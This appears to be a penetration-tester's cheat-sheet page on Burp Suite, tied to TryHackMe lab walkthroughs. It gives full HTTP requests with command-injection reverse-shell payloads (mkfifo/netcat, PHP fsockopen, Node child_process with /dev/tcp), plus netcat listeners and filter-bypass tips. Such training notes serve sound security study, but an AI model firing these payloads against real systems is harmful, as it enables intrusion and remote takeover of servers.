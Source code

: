 # Burp



## Find Parameters

Try using burp suite intruder to brute force to find other parameters&#x20;





## Command Injection

**Examples**

[hacker-vs.-hacker.md](../../walkthroughs/tryhackme/hacker-vs.-hacker.md "mention")

Started using Burp while testing out payloads to url-encode payloads more easy.

**Kali**

```
nc lvnp 1337
```

Started using Burp while testing out payloads to url-encode payloads more easy.

**Burp**

```
GET /cvs/shell.pdf.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.9.104+1337+>/tmp/f HTTP/1.1
Host: 10.10.21.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Bypass Filters - ;

try adding ; and then a command.

**Burp Request**

```
GET /index.php?path=;php+-r+'$sock%3dfsockopen("$KALI",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.128.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### Change Request Type

**Examples**

[glitch.md](../../walkthroughs/tryhackme/glitch.md "mention")

Change the request from GET to POST and it gives an interesting message

<figure><img src="../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

Running the below shows it is vulnerable

<figure><img src="../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

If it works try getting a shell

**Kali**

```
nc -lvnp
```

**Burp**

```
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/$KALI/1337+0>%261"') HTTP/1.1
Host: 10.10.22.153
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=value
Upgrade-Insecure-Requests: 1
```



<figure><img src="../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

## Exploiting Vulnerable Password Reset Logic(OTP)

**Examples**

[#exploiting-vulnerable-password-reset-logic](enumeration-and-brute-force.md#exploiting-vulnerable-password-reset-logic "mention")

## Exploiting HTTP Basic Authentication

**Examples**

[#exploiting-http-basic-authentication](enumeration-and-brute-force.md#exploiting-http-basic-authentication "mention")

##



